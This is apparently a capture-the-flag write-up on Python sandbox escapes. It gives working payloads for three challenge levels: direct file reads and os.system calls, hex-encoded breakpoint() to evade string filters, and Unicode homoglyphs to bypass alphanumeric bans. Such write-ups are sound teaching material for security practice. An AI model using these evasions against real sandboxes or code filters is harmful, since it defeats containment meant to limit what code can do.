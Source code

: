 ```yaml
---
title: "Python Jailbreak Techniques"
date: "2025-06-25"
---
```


```
# Python Jailbreak Techniques: Three Levels of Escalation

## 1. Baby Jail
**Scenario**: No restrictions, simplest bypass

**Solutions**:
```python
open("/flag.txt").read()
```
```python
__import__('os').system("cat /flag.txt")
```

## 2. Bahri Jail 
**Scenario**: Basic character restrictions

**Solution**: Hex-encoded breakpoint()
```
exec(bytes.fromhex('627265616b706f696e7428')) # breakpoint()
```
Then in debugger:
```python
import os; os.system("cat /flag.txt")
```

## 3. Silent Jail
**Scenario**: All alphanumerics banned (A-Z,a-z,0-9)

**Solution**: Unicode homoglyph attack
```python
𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()  # breakpoint() using mathematical sans-serif italic
```
Then in debugger:
```python
𝘪𝘮𝘱𝘰𝘳𝘵 𝘰𝘴; 𝘰𝘴.𝘴𝘺𝘴𝘵𝘦𝘮("𝘤𝘢𝘵 /𝘧𝘭𝘢𝘨.𝘵𝘹𝘵")
```

**Key Notes**:
- Breakpoint() is the universal starting point
- Unicode chars bypass character filters but execute normally
- Hex/bytes encoding bypasses string-based filters
``` 

